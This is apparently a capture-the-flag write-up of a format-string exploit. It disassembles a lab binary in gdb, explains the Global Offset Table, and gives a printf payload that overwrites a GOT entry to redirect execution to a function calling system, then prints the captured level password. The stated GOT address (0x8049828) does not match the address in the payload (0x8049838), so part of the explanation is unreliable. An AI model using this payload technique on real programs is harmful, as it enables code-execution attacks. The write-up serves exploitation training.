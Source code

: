 # Level 5

after switch to the new level we found an exectubale file _level5_ we use gdb to disass.

```c
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:     push   ebp
   0x08048505 <+1>:     mov    ebp,esp
   0x08048507 <+3>:     and    esp,0xfffffff0
   0x0804850a <+6>:     call   0x80484c2 <n>
   0x0804850f <+11>:    leave
   0x08048510 <+12>:    ret
End of assembler dump.
```

```c
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   ebp
   0x080484c3 <+1>:     mov    ebp,esp
   0x080484c5 <+3>:     sub    esp,0x218
   0x080484cb <+9>:     mov    eax,ds:0x8049848
   0x080484d0 <+14>:    mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:    mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:    lea    eax,[ebp-0x208]
   0x080484e2 <+32>:    mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    eax,[ebp-0x208]
   0x080484f0 <+46>:    mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
```

```c
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x18
   0x080484aa <+6>:     mov    DWORD PTR [esp],0x80485f0
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    mov    DWORD PTR [esp],0x1
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
```

we disass func in <+25>

```c
(gdb) disass 0x8048390
Dump of assembler code for function _exit@plt:
   0x08048390 <+0>:     jmp    *0x8049828
   0x08048396 <+6>:     push   $0x8
   0x0804839b <+11>:    jmp    0x8048370
End of assembler dump.
```

we notice in the exit function they jmp to \*0x8049828

```
(gdb) x/x 0x8049828
0x8049828 <_exit@got.plt>:      0x08048396
(gdb)
```

The Global Offset Table (GOT) is a data structure used in position-independent code (PIC) to provide a mechanism for resolving function calls and global variable references at runtime. The GOT is typically located in the data segment of a program and contains the memory addresses of all functions and global variables that are used in the program

```
(gdb) info func
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
-->  0x08048390  _exit
0x08048390  _exit@plt
```

so we change this address 0x8049828 to not let the program redirect to the exit func and redirect it to the func o().

```c
 python -c 'print("\x08\x04\x98\x38"[::-1] + "%x " * 2 + "%134513811x" + "%n")' > a
```

```c
cd ../level6
cat .pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

